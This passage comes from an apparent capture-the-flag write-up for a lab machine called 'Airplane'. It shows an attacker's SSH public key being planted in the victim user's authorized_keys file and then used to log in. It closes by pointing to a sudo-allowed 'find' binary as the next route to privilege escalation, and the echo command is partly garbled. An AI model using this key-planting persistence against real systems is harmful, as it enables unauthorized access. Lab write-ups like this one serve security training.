 And we echo in the folder :

```bash
hudson@airplane:/home/hudson/.ssh$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJA+tMna9rGddaMWghUGuaN4hjdebm4RXFbqx62kiItg hax@hudson@airplane:/home/hudson/.ssh$ ls
authorized_keys
hudson@airplane:/home/hudson/.ssh$ cat authorized_keys 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJA+tMna9rGddaMWghUGuaN4hjdebm4RXFbqx62kiItg hax@HaxonKali
```

## SSH Hudson

Now we can access on [[SSH]] with our private key :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ ssh -i /home/hax/.ssh/id_ed25519 hudson@airplane.thm  
The authenticity of host 'airplane.thm (10.10.12.222)' can't be established.
ED25519 key fingerprint is SHA256:9q23c/CHFWNnqEDK/eQFZ2BSYcCGfCW3+A9hX0ubHj0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'airplane.thm' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Your Hardware Enablement Stack (HWE) is supported until April 2025.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

hudson@airplane:~$ 

```

## LinPEAS 

We can use [[LinPEAS]] to find vulnerabilities, lit will find we can run `find` as sudo .
## GTFObins
